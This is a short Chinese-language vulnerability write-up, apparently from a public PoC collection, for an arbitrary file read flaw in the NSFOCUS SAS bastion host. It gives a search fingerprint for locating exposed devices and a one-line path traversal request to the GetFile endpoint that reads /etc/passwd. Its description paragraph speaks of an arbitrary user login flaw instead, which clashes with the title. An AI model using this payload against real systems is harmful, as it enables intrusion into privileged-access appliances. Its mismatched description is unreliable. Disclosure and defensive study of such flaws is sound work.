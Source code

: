 # 

# 绿盟 SAS堡垒机 GetFile 任意文件读取漏洞

## 漏洞描述

绿盟堡垒机存在任意用户登录漏洞，攻击者通过漏洞包含 www/local_user.php 实现任意⽤户登录

## 漏洞影响

绿盟 SAS堡垒机

## 网络测绘

```
body="'/needUsbkey.php?username='"
```

## 漏洞复现

登陆页面

![image-20230828162656143](images/image-20230828162656143.png)

漏洞存在于文件 GetFileController.php 文件中

![image-20230828162808415](images/image-20230828162808415.png)

验证POC

```
/webconf/GetFile/index?path=../../../../../../../../../../../../../../etc/passwd
```

![image-20230828162825768](images/image-20230828162825768.png)

